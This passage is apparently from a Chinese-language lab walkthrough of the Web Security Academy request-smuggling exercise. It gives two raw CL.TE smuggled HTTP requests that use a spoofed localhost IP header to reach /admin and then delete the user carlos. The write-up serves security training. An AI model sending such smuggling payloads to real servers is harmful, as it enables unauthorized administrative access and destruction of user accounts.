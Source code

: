 第二次发送请求数据报文回显结果如下，可以看到响应中"Search results for"后跟了重写的 HTTP 请求的开头

[![](assets/1704418275-2386a0721e157dde1e1ab72bbde1f4c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155911-fa99fde8-aa0d-1.png)  
随后记下重写请求中 X-\*-IP 报头的名称并使用它来访问管理面板：

```plain
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-GoOvNz-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

第一个报文显示结果如下：

[![](assets/1704418275-22d48190011cf8bbd6511e689c4ecd47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155948-10ce564a-aa0e-1.png)

第二个请求中显示直接进入 Admin 面板

[![](assets/1704418275-088bc1a08d512b88ad6994084bad1035.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160001-18e6df50-aa0e-1.png)  
并发现两个用户和对应的删除操作选项  
[![](assets/1704418275-7b4d0b0a223ca4243735d696517dcba7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160018-22c99b3e-aa0e-1.png)  
随后我们直接使用前面的响应作为参考，更改走私的请求 URL 以删除用户 carlos

```plain
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
